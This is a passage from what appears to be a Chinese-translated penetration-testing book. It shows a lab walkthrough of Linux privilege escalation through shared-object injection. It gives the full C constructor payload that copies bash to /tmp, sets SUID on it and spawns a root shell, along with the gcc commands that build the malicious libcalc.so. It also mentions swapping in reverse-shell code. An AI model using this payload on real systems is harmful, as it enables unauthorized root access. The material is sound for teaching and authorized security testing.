     图 13.17 – 用户的主目录

1.  运行以下命令可以在**用户**帐户的主目录中创建**.config**目录：

    **mkdir /home/user/.config**

    创建完**.config**目录后，需要创建**libcalc.c**文件。可以通过运行以下命令来完成此操作：

    **touch /home/user/.config/libcalc.c**

1.  下一步涉及将我们的自定义 C 代码添加到我们将要编译的**libcalc.c**文件中。使用你选择的终端文本编辑器打开刚刚创建的**libcalc.c**文件。在我的情况下，我将使用 VIM 并添加以下 C 代码：

    #include <stdio.h>

    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void inject() {

    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

    }

    这段 C 代码利用了一个名为**inject**的自定义函数，该函数运行一个系统命令，将 Bash 二进制文件复制到 Linux 的**temp**目录。完成这一步后，它会为 Bash 二进制文件赋予 SUID 权限，并从**temp**目录执行它。由于**suid-so**二进制文件以 root 用户身份运行，并调用**libcalc.so**共享库，自定义的**libcalc.so**共享库文件也会以 root 权限执行，从而为我们提供提升的 Bash 会话。

    注意

    你还可以在**libcalc.c**中使用你自己的 C 反向 Shell 代码，它将连接到反向监听器，并为你提供一个提升的反向 Shell。

    一旦你添加了自定义代码，确保按照以下截图所示正确缩进：

    ![图 13.18 – 自定义的 libcalc.c 代码    ](img/B17389_13_018.jpg)

    图 13.18 – 自定义的 libcalc.c 代码

    在按要求缩进并格式化代码后，确保保存代码再继续。现在，我们需要编译**libcalc.c**文件，以便获得**libcalc.so**共享库文件。

1.  我们可以通过运行以下命令用**Gnu C Compiler**（**GCC**）编译自定义的**libcalc.c**文件：

    **gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c**

    这个命令将编译自定义的**libcalc.c**文件，并为我们提供自定义的**libcalc.so**共享库文件，从而为我们提供提升的会话。

    注意

    在用 GNU C 编译器(**gcc**)编译自定义代码时，我们使用了**-fPIC**标志，这可以确保我们的共享库中的代码是位置无关的，并且可以在内存中的任何地址加载。

    编译**libcalc.c**文件后，你现在应该在**user**账户的主目录中拥有自定义的**libcalc.so**文件，如下图所示：
